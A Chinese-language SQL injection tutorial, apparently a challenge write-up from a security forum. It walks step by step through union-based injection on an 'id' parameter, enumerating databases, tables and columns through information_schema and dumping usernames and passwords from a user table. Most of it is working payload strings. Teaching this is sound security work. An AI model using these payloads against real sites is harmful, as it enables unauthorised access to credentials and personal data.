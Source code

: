 因为查询结果会显示到页面中，所以要确定回显位，那么就先要确定列数。  
使用常规的`order by`判断。  
原理：`order by`的功能是按某列对查询结果进行排序，如果一个查询结果有2列，`order by 2`就是按第二列进行排序，但是`order by 3`由于没有第三列，所以会出错。  
回到题目：  
`?id=-1 order by 5`正常返回。  
`?id=-1 order by 6`500报错。  
说明有5列。  
`?id=-1 union select 1,2,3,4,5`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-768d00510a96e4fa107fbded1fce1ab3c2b21b2b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-768d00510a96e4fa107fbded1fce1ab3c2b21b2b.png)  
根据响应就可以确定回显位置。  
然后比较常规的就是利用`information_schema`表查询数据库名，表名，字段名。

### 查数据库名

利用`information_schema.SCHEMATA`的`SCHEMA_NAME`查询数据库名。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3d0ee1bc975e9d5fecf1542bf0dfcf07186bd641.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3d0ee1bc975e9d5fecf1542bf0dfcf07186bd641.png)

### 查表名

利用`information_schema.TABLES`的`TABLE_SCHEMA`和`TABLE_NAME`来查询表名。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bb3056f0aae65a49a07ed76d7a648dcd8ea2bc3c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bb3056f0aae65a49a07ed76d7a648dcd8ea2bc3c.png)

### 查列名

利用`information_schema.COLUMNS`的`TABLE_NAME`和`COLUMN_NAME`来查询表名。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-15a716a31300ae38ba70363e4a4645db1091d7b8.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-15a716a31300ae38ba70363e4a4645db1091d7b8.png)  
上面都是贴一下`information_schema`表结构，学习这些自带的默认表有助于理解利用原理。

### 实战

回到题目。  
首先使用：`?id=-1 union select 1,2,(select SCHEMA_NAME from information_schema.SCHEMATA),4,5`  
发现500报错，这是因为查询到的结果有多条数据，所以要利用`GROUP_CONCAT`函数将`SCHEMA_NAME`字段的查询结果进行拼接。（也可以通过`limit`逐条查询）  
`?id=-1 union select 1,2,(select GROUP_CONCAT(SCHEMA_NAME) from information_schema.SCHEMATA),4,5`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-23c8f2c9d5fb0fd70ec968008b1328aebbcc7bdd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-23c8f2c9d5fb0fd70ec968008b1328aebbcc7bdd.png)  
接下来就要查表名。  
从上面可以看到`information_schema.TABLES`中包含整个mysql的表名，所以需要添加`TABLE_SCHEMA`条件进行过滤。  
`?id=-1 union select 1,2,(select GROUP_CONCAT(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=0x6b657070),4,5`  
其中`0x6b657070`是`kepp`的hex编码。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-723d2980f0c3b2a28457d720f119506ab3edaef1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-723d2980f0c3b2a28457d720f119506ab3edaef1.png)  
接下来查列名。大同小异。  
`?id=-1 union select 1,2,(select GROUP_CONCAT(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME=0x73716c5f75736572),4,5`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-813d345d20802dfc95166298280f85d4832b4490.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-813d345d20802dfc95166298280f85d4832b4490.png)  
这样就确定了一个表的结构了`kepp.sql_user(Id,Username,Password,email,blog)`  
后面查数据就很简单了。  
`?id=-1 union select 1,2,(select GROUP_CONCAT(Id,Username,Password,email,blog) from kepp.sql_user),4,5`  
